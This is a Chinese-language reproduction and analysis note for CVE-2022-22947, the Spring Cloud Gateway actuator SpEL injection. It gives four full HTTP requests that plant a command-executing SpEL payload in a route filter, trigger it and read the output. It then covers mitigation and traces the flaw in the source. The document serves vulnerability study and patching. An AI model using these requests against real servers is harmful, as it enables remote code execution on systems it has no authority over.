 # CVE-2022-22947 Spring Cloud Gateway Actuator API SpEL表达式注入命令执行

# 0x00 概述
[/gateway actuator endpoint](https://docs.spring.io/spring-cloud-gateway/docs/3.0.6/reference/html/#actuator-api) 允许以 JMX 或 Web 访问，可构造恶意请求创建新路由，同时利用路由的filter功能注入spel表达式，从而造成表达式注入执行任意代码。

version <= 3.0.6，3.1.0

# 0x01 复现

需要分包发送

poc1 包含恶意Spel的路由

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 331

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```

poc2 5 应用路由（执行命令、刷新路由更改）

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

poc3 查看执行结果

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

poc4 删除添加的路由

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

# 0x03 补丁

禁止外界访问 Spring Cloud Gateway actuator 端点 ，修改 spring 配置将 management.endpoint.gateway.enabled 置为 false，并重启服务使配置生效。

# 0x04 分析

在官方文档中对 poc 使用到的 API 进行了描述 https://docs.spring.io/spring-cloud-gateway/docs/3.0.6/reference/html/#actuator-api

filters 的值即通过 [GatewayFilter Factories](https://docs.spring.io/spring-cloud-gateway/docs/3.0.6/reference/html/#gatewayfilter-factories) 指定

![](attachments/Pasted image 20220928180048.png)

![](attachments/Pasted image 20220929091744.png)

下载源码，全局搜索 `StandardEvaluationContext` ，定位到 `org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue()`

![](attachments/Pasted image 20220929101049.png)

打断点，继续调试几步可以看到加载了 `AddResponseHeaderGatewayFilterFactory`，定位到该接口，查看调用关系，与断点位置形成调用

![](attachments/Pasted image 20220929095054.png)

![](attachments/Pasted image 20220929100938.png)

而在 `org.springframework.cloud.gateway.filter.factory.AddResponseHeaderGatewayFilterFactory#apply()` 会传入一个 `NameValueConfig` 类型的值，存在 name、value 字段（即对应poc）

![](attachments/Pasted image 20220929101854.png)

到这里可以看到从 `AddResponseHeaderGatewayFilterFactory` 传入的值执行 getValue() 时会最终触发到 `org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue()` 中的Spel表达式

**参考**

https://xz.aliyun.com/t/11044

https://www.cnpanda.net/sec/1159.html
